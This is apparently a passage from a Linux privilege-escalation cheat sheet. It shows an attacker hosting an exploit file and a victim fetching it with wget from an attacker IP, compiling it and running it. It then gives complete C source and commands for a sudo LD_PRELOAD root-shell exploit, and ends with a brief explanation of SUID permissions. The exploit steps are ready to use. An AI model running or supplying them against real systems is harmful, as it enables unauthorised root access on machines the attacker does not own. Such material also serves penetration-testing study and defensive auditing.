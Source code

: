 Download expliot.c
Upload to Victim 

Attacker
```ps1
python -m SimpleHTTPServer 9000 // You can use any port

```

Victim

```ps1
wget http://<attacker_ip>:9000/expliot.c
Compile expliot.c: gcc expliot.c -o expliot
./expliot
id && whoami 
```

### __Sudo LD_PRELOAD__

sudo -l 

Example Output: env_reset, env_keep+=LD_PRELOAD // Do you have the same output with sudo binary rights?

Expliot

```ps1

cd /tmp
vi priv.c
   
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

Compile priv.c: gcc -fPIC -shared -o priv.so priv.c -nostartfiles
Command: sudo LD_PRELOAD=/tmp/priv.so awk // awk can be replaced with any sudo binary
```

## __SUID / GUID Binaries Overview__


SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges. 

Basically, you can change the permission of any file either using the “Numerical” method or “Symbolic” method. As result, it will replace x from s as shown in the below image which denotes especial execution permission with the higher privilege to a particular file/command. Since we are enabling SUID for Owner (user) therefore bit 4 or symbol s will be added before read/write/execution operation.
Basic Enumeration
